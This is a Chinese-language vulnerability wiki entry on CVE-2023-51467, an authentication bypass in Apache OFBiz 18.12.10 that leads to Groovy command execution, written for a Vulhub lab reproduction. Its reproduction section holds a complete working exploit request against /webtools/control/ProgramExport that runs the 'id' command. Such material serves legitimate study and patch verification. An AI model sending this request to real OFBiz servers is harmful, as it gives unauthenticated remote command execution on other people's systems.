

# Apache OfBiz 鉴权绕过导致命令执行 CVE-2023-51467

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：演示18.12.10，ProgramExport开放路径，requirePasswordChange认证逻辑受影响
- 证据范围：明确旧XMLRPC已移除而认证缺陷仍在，属于不同补丁阶段，不与49070简单去重。

### 已有来源支持的更正

- 官方列51467首次修复18.12.11

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺独立受影响/修复版本，官方<18.12.11及18.12.11修复应加入
- 漏洞命令执行在合法Groovy管理功能被绕权调用，不应误当独立通用表达式引擎漏洞

### 核验来源

- https://ofbiz.apache.org/security.html

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache OFBiz 是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新 J2EE/XML 规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类 WEB 应用系统的框架。 OFBiz 最主要的特点是 OFBiz 提供了一整套的开发基于 Java 的 web 应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

这个漏洞的原因是对于 [CVE-2023-49070](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-49070) 的不完全修复。在 Apache OFBiz 18.12.10 版本中，官方移除了可能导致 RCE 漏洞的 XMLRPC 组件，但没有修复权限绕过问题。来自长亭科技的安全研究员利用这一点找到了另一个可以导致 RCE 的方法：Groovy 表达式注入。

参考连接：

- [https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa](https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa)
- [https://xz.aliyun.com/t/13211](https://xz.aliyun.com/t/13211)
- [https://y4tacker.github.io/](https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/)

## 环境搭建

Vulhub 执行如下命令启动一个 Apache OfBiz 18.12.10 服务器：

```shell
docker compose up -d
```

在等待数分钟后，访问 `https://your-ip:8443/accounting` 查看到登录页面，说明环境已启动成功。

如果是非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain 127.0.0.1 not accepted to prevent host header injection. You need to set host-headers-allowed property in security.properties file.
```


## 漏洞复现

直接发送如下请求即可使用 Groovy 脚本执行 `id` 命令：

> Host: localhost

```http
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 55

groovyProgram=throw+new+Exception('id'.execute().text);
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
